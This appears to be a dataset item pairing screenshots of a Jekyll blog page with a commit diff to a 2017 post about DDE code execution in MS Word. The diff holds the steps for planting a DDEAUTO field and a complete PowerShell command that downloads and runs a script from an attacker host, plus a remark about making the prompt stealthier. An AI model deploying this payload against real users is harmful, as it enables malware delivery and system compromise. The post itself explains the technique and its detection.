

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from blog/index.html, in a window 1280 px wide. Shown: the top 768 px of the page, without its empty margins (160-884 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Update info and rename

```diff
--- a/_posts/Code-Execution-in-MSWord---and-Detection.md
+++ b/_posts/2017-10-11-Code-Execution-in-MSWord---and-Detection.md
@@ -7,14 +7,14 @@
 Saif does a good job of explaining the steps in his post, but the basic setup is:
 1. <code> Insert </code> tab -> Quick Parts -> <code> Field </code>
 2. choose <code> =(Formula) </code> and click ok
-3. right-click on <code> !Unexpected End of Formula <code> and choose <code> Toggle Field Codes </code>
+3. right-click on <code> !Unexpected End of Formula </code> and choose <code> Toggle Field Codes </code>
 4. change the Field Code to contain:
-  1.{DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  }
+..* <code> {DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"  } </code>
 5. save the document and then open it
 6. you will get two prompts to click through and then calc will open
 
 The possibilities here are endless. Saif's proof of concept video in the post uses powershell to download an empire launcher
-<code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
+..* <code> { DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://evilserver.ninja/pp.ps1');powershell -e $e "}
 </code>
 I think depending on the access I had on the machine, I would change the syntax to be more stealthy, so the popup doesnt raise any red-flags with the user.
 
```
